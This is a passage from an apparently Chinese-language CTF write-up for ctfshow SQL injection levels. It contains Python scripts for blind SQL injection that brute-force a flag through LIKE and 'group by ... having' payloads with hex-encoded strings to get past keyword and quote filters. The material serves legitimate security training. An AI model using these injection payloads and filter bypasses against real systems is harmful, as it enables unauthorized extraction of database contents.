 盲注脚本

```python
import requests

dicts=r'1234567890-{}qwertyuiopasdfghjklzxcvbnm'

flag = 'ctfshow{'

for i in range(1,64):
    for s in dicts:
        data = {'tableName': '(ctfshow_user)where(pass)like(\'{}%\')'.format(flag+s)}
        url = 'http://68dd6502-9f12-4e04-86da-60d7ea7d0d94.challenge.ctf.show/select-waf.php'
        res = requests.post(url,data=data)
        if res.text.find('$user_count = 1') != -1:
            flag += s
            print(flag)
            break
```

![20220724235544](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220724235544.png)

## web184

同上, 但是没有过滤空格, 过滤了 where 和单双引号

可以用 `group by + having` 绕过, 单双引号中的字符转换成十六进制

```
tableName=ctfshow_user group by pass having pass like 0xxxxxx
```

脚本

```python
import time
import requests
import binascii

dicts=r'1234567890-{}qwertyuiopasdfghjklzxcvbnm'

flag = 'ctfshow{'



def tohex(string):
    str_bin = string.encode('utf-8')
    return binascii.hexlify(str_bin).decode('utf-8')


for i in range(1,64):
    for s in dicts:
        data = {'tableName': 'ctfshow_user group by pass having pass like 0x{}'.format(tohex(flag+s+'%'))}
        url = 'http://e99073fc-5cf5-472e-9f9e-96391bdb0140.challenge.ctf.show/select-waf.php'
        res = requests.post(url,data=data)
        if res.text.find('$user_count = 1') != -1:
            flag += s
            print(flag)
            break
```
